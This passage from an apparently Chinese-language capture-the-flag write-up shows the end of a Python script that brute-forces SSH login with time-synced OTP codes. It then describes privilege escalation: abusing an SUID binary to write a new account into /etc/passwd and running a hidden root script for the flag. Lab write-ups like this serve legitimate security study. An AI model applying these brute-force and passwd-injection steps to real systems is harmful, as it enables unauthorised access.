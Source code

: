 ```python

    # Change timezone & sync to the time server
    timeSimulatorClient.setTimeZone()
    timeSimulatorClient.syncTime()

    # Brute forcing SSH with computed OTP
    SSHUsername = 'architect'
    while True:
        OTP = timeSimulatorClient.getOTP()
        bruteForceResult = timeSimulatorClient.bruteForceSSH(SSHUsername, OTP)

        if bruteForceResult is True:
            print(f'[+] Found the correct OTP! {SSHUsername}:{OTP}')
            break

if __name__ == '__main__':
    main()
```

跑出来

![在这里插入图片描述](https://img-blog.csdnimg.cn/5bf0317e57024861adefe19803c982c7.png)

登ssh同时拿到user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/c396442de4e04967a26e23f1c6543d9e.png)

## 权限提升

find suid，发现一个陌生的二进制文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/96a34f0860624e0f8f536b04edd5cd61.png)

根据lol，它可以造成任意文件读写

![在这里插入图片描述](https://img-blog.csdnimg.cn/0f93059b90584643b4a68f302d03cad5.png)

直接利用其向passwd写入账户，值得注意的是要将hash开头的两个$前加反斜杠

![在这里插入图片描述](https://img-blog.csdnimg.cn/59a052eb8c324b65b5ce9831ef653586.png)

但root flag不在root家目录下

find找到了'/etc/-- -root.py'

![在这里插入图片描述](https://img-blog.csdnimg.cn/b7ec208eebe047b9b2bd9614156325fa.png)

直接运行它得到flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/0ae8bfd27fa84b6a9e402d574fb8b0c0.png)

题目还要找acp pin
